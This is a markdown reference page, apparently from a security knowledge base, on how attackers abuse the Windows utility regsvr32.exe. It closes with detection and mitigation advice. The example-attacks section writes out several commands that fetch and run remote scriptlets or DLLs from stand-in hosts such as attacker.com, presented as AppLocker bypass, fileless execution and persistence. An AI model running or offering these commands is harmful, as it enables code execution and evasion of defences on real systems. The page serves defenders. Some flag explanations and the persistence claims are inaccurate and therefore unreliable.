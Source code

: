 # regsvr32.exe
## What is it?
*```regsvr32.exe``` is a legitimate Windows utility used for registering and unregistering Dynamic Link Libraries (DLLs) and ActiveX controls in the Windows registry.*
*It is a trusted system tool that allows applications and services to load DLLs dynamically, ensuring the system operates correctly.*
*Due to its trusted nature, it is often abused by attackers to execute malicious code or bypass security mechanisms.*

## Legitimate Usage
- **Register DLLs** → Register system or third-party DLLs to ensure proper functionality of applications.
- **Unregister DLLs** → Unregister DLLs that are no longer needed or cause conflicts with applications.
- **ActiveX Control Management** → Used to register or unregister ActiveX controls in web applications.
- **Software Installation** → Some installation scripts use ```regsvr32.exe``` to register DLLs as part of the installation process.

## How to abuse it
- **Bypass Execution Restrictions** → Attackers can use ```regsvr32.exe``` to execute malicious scripts or payloads while bypassing security mechanisms such as antivirus or execution policies.
- **Fileless Malware Execution** → Using a remote DLL or malicious script, attackers can execute code without writing it to disk.
- **Bypass AppLocker or Software Restriction Policies** → Since ```regsvr32.exe``` is a whitelisted executable, attackers can abuse it to execute payloads from trusted locations, evading detection.
- **Persistence Mechanism** → Attackers can use ```regsvr32.exe``` in conjunction with remote DLLs to ensure persistence on a compromised system.

## Example attacks
### 1. Executing a Malicious DLL
*Attackers can use ```regsvr32.exe``` to load a malicious DLL from a remote server or local path and execute it.*
**Execute Malicious DLL from Remote Server**

```
regsvr32.exe /s /n /u /i:http://attacker.com/malicious.dll

regsvr32.exe /s /i:http://10.0.0.5/file.sct scrobj.dll

regsvr32.exe /s /n /u /i:http://malicious[.]site/payload.sct scrobj.dll

regsvr32.exe /u /s /i:payload.sct scrobj.dll
```

calc.exe is spawned by regsvr32.exe:

![image](https://github.com/user-attachments/assets/2d8bab8b-8a61-4b73-92a0-f7e06e90fe7a)

However, sysmon will show regsvr32 establishing a network connection:

![image](https://github.com/user-attachments/assets/7a0a4e63-47a9-4a3a-8987-1e449171381e)

**Effect:**
- ```/s``` → Suppresses the success message, making it stealthy.
- ```/n``` → Bypasses the DLL registration process.
- ```/u``` → Unregisters the DLL after execution.
- Executes the malicious DLL on the target machine.

### 2. Fileless Malware Execution
*Bypassing traditional detection methods, attackers can execute a payload directly from memory using regsvr32.exe and a remote DLL.*
**Execute Malicious DLL without Writing to Disk**

```
regsvr32.exe /s /i:http://attacker.com/malicious.dll
```

**Effect:**
- Loads and executes the DLL directly from memory, avoiding detection by file-based security solutions.

### 3. Using regsvr32 for Persistence
*Attackers can leverage regsvr32.exe to register malicious DLLs or scripts to ensure persistence.*
**Create Persistence with regsvr32**

```
regsvr32.exe /s /n /u /i:http://attacker.com/persistence.dll
```

**Effect:**
- Registers a malicious DLL that persists across reboots, as it may be automatically loaded during system startup.

### 4. Bypassing Application Control (AppLocker)
*Since regsvr32.exe is a trusted system binary, attackers can use it to bypass security controls such as AppLocker or Software Restriction Policies (SRP).*
**Bypass AppLocker to Execute Malicious Payload**

```
regsvr32.exe /s /i:http://attacker.com/payload.dll
```

**Effect:**
- Executes a malicious payload using regsvr32.exe, which is allowed to run despite other restrictions on executables.

### 5. Remote Code Execution via regsvr32
*Attackers can use regsvr32 to execute commands on a remote system using a specially crafted DLL.*
**Execute Remote Code via regsvr32**

```
regsvr32.exe /s /n /i:http://attacker.com/remote_payload.dll
```

**Effect:**
- Executes a payload located on a remote server, enabling remote code execution on the target system.

# Detection & Mitigation
## Detection Methods
**Monitor regsvr32 Executions**
- **Event ID 4688 (Process Creation)** → Detect when ```regsvr32.exe``` is executed with suspicious arguments like `/i` or from unusual paths.
- **Fileless Execution Detection** → Detect unusual network traffic associated with ```regsvr32.exe``` downloading DLLs or payloads from remote servers.
- **Behavioral Analysis** → Monitor for anomalous behaviors, such as the execution of ```regsvr32.exe``` followed by processes that exhibit fileless characteristics.

**Analyze Network Traffic**
- **Monitor Outbound Connections** → Track any outbound connections initiated by ```regsvr32.exe```, particularly those to suspicious or known malicious IP addresses.

**Log Suspicious File Changes**
- **Event ID 4663 (File Access)** → Detect changes to the file system that could indicate a malicious DLL or script is being executed via regsvr32.

## Mitigation Strategies
- **Restrict regsvr32 Access** → Use AppLocker, Device Guard, or similar application control tools to block or restrict the execution of regsvr32 for unauthorized users or processes.
- **Disable Scripting & DLL Loading** → Prevent the use of ```regsvr32.exe``` for loading external DLLs, especially from remote locations.
- **Monitor for Suspicious Scheduled Tasks** → Detect and remove any scheduled tasks or scripts that rely on ```regsvr32.exe``` for persistence.
- **Use Endpoint Protection Software** → Use security software to scan and block malicious DLLs that might be executed through regsvr32.exe.
- **Regularly Review Security Logs** → Look for patterns that suggest regsvr32.exe is being used for malicious purposes, including execution from non-standard locations or with unusual parameters.
